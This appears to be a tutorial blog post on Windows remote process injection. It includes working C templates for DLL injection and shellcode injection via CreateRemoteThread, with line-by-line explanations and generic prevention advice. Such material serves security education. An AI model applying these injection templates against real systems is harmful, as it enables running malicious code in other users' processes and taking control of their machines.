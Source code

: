 ```yaml
---
layout: post
title: Remote Process Injection
description: "remote process injection is a technique used by attackers to execute malicious code in remote processes with the goal of gaining control or unauthorized access to target systems or servers. This technique poses a significant threat to information security."
---
```


## Objectives of Remote Process Injection

Remote process injection serves various objectives, including:

1. **Data Exfiltration:** Attackers can steal sensitive information, such as passwords and financial data.

2. **Remote Control:** Intruders can take over the target system to perform malicious actions.

3. **Privilege Escalation:** The technique can be used to gain privileged access.

4. **Persistence:** Attackers ensure that their malicious code continues to run on the system.

## Injection Methods

There are various techniques for remote process injection, including:

### DLL Injection

DLL Injection involves injecting a malicious dynamic link library into a running process. Here's an example in C:

```c
#include <Windows.h>

int main() {
    // Open a target process (e.g., notepad.exe) for injection
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 1234); // Replace 1234 with the actual process ID

    if (hProcess) {
        // Load your malicious DLL into the target process
        LPVOID pDllPath = VirtualAllocEx(hProcess, NULL, MAX_PATH, MEM_COMMIT, PAGE_READWRITE);
        WriteProcessMemory(hProcess, pDllPath, "C:\\path\\to\\malicious.dll", MAX_PATH, NULL);

        // Get the address of the LoadLibrary function in the target process
        LPVOID pLoadLibrary = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");

        // Create a remote thread to load the DLL
        HANDLE hRemoteThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pLoadLibrary, pDllPath, 0, NULL);

        // Cleanup and close handles
        CloseHandle(hRemoteThread);
        VirtualFreeEx(hProcess, pDllPath, 0, MEM_RELEASE);
        CloseHandle(hProcess);
    }

    return 0;
}
```
**Explanation:**

- We open the target process using `OpenProcess`.
- Allocate memory in the target process to store the path to the malicious DLL using `VirtualAllocEx`.
- Write the path to the DLL into the target process's memory using `WriteProcessMemory`.
- Get the address of the `LoadLibrary` function in the target process using `GetProcAddress`.
- Create a remote thread in the target process that calls `LoadLibrary` with the DLL path, effectively injecting the DLL.

## Shellcode Injection
Shellcode Injection involves directly injecting code into the memory of the target process. Here's an example in C:

```c
#include <Windows.h>

int main() {
    // Open a target process (e.g., notepad.exe) for injection
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 1234); // Replace 1234 with the actual process ID

    if (hProcess) {
        // Allocate memory in the target process for shellcode
        LPVOID pShellcode = VirtualAllocEx(hProcess, NULL, 4096, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

        // Write your malicious shellcode into the target process's memory
        unsigned char shellcode[] = { /* your shellcode here */ };
        WriteProcessMemory(hProcess, pShellcode, shellcode, sizeof(shellcode), NULL);

        // Create a remote thread to execute the shellcode
        HANDLE hRemoteThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pShellcode, NULL, 0, NULL);

        // Cleanup and close handles
        CloseHandle(hRemoteThread);
        VirtualFreeEx(hProcess, pShellcode, 0, MEM_RELEASE);
        CloseHandle(hProcess);
    }

    return 0;
}

```
**Explanation:**

- We open the target process using `OpenProcess`.
- Allocate memory in the target process to store the shellcode using `VirtualAllocEx`.
- Write your malicious shellcode into the target process's memory using `WriteProcessMemory`.
- Create a remote thread in the target process to execute the shellcode.

## Prevention and Mitigation

To protect against remote process injection, adopt the following security practices:

1. **Keep systems and software up to date with security patches.**
   Regularly apply security patches and updates to your operating systems and software to fix vulnerabilities that could be exploited.

2. **Implement intrusion detection and prevention systems.**
   Utilize intrusion detection and prevention systems to monitor and filter network traffic for suspicious activities and potential injection attempts.

3. **Limit access privileges and actively monitor the network for suspicious activities.**
   Implement the principle of least privilege to restrict access to critical systems. Continuously monitor network traffic for any anomalies or suspicious behaviors.

4. **Educate employees on safe browsing practices and caution with untrusted documents and links.**
   Provide security awareness training to employees to help them recognize and avoid potential threats like malicious documents and links.

5. **Use advanced firewalls and threat prevention systems.**
   Deploy advanced firewalls and threat prevention solutions to filter incoming and outgoing network traffic, blocking known attack vectors.

6. **Implement multi-factor authentication for critical accounts and systems.**
   Enforce multi-factor authentication (MFA) for accessing critical accounts and systems, adding an extra layer of security.

Remote process injection is a serious threat that requires ongoing vigilance and proactive security measures to mitigate associated risks.
